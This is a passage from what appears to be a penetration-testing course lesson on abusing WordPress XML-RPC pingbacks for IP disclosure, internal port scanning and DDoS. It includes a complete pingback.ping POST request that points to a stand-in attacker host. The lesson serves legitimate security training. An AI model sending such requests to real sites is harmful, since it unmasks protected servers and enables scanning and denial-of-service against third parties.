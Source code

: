 ```
  &lt;value&gt;&lt;string&gt;wp.getPost&lt;/string&gt;&lt;/value&gt;
  &lt;value&gt;&lt;string&gt;wp.deletePost&lt;/string&gt;&lt;/value&gt;
  &lt;value&gt;&lt;string&gt;wp.editPost&lt;/string&gt;&lt;/value&gt;
  &lt;value&gt;&lt;string&gt;wp.newPost&lt;/string&gt;&lt;/value&gt;
  &lt;value&gt;&lt;string&gt;wp.getUsersBlogs&lt;/string&gt;&lt;/value&gt;
&lt;/data&gt;&lt;/array&gt;
      &lt;/value&gt;
    &lt;/param&gt;
  &lt;/params&gt;
&lt;/methodResponse&gt;
</span></code>
```

Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API) is included. `pingback.ping` allows for XML-RPC pingbacks. According to WordPress, _a [pingback](https://wordpress.com/support/comments/pingbacks/) is a special type of comment that’s created when you link to another blog post, as long as the other blog is set to accept pingbacks._

Unfortunately, if pingbacks are available, they can facilitate:

-   IP Disclosure - An attacker can call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
-   Cross-Site Port Attack (XSPA) - An attacker can call the `pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
-   Distributed Denial of Service Attack (DDoS) - An attacker can call the `pingback.ping` method on numerous WordPress instances against a single target.

Find below how an IP Disclosure attack could be mounted if `xmlrpc.php` is enabled and the `pingback.ping` method is available. XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in _http://blog.inlanefreight.com_ is protected by Cloudflare. As we already identified, it also has `xmlrpc.php` enabled, and the `pingback.ping` method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from _http://blog.inlanefreight.com_, verifying the pingback and exposing _http://blog.inlanefreight.com_'s public IP address.

Code: http

```
--&gt; POST /xmlrpc.php HTTP/1.1 
<span class="token header-name keyword">Host:</span> blog.inlanefreight.com 
<span class="token header-name keyword">Connection:</span> keep-alive 
<span class="token header-name keyword">Content-Length:</span> 293

&lt;methodCall&gt;
&lt;methodName&gt;pingback.ping&lt;/methodName&gt;
&lt;params&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;http://attacker-controlled-host.com/&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;/params&gt;
&lt;/methodCall&gt;
```

If you have access to our [Hacking Wordpress](https://enterprise.hackthebox.com/academy-lab/7282/preview/modules/17) module, please note that you won't be able to exploit the availability of the `pingback.ping` method against the related section's target, due to egress restrictions.
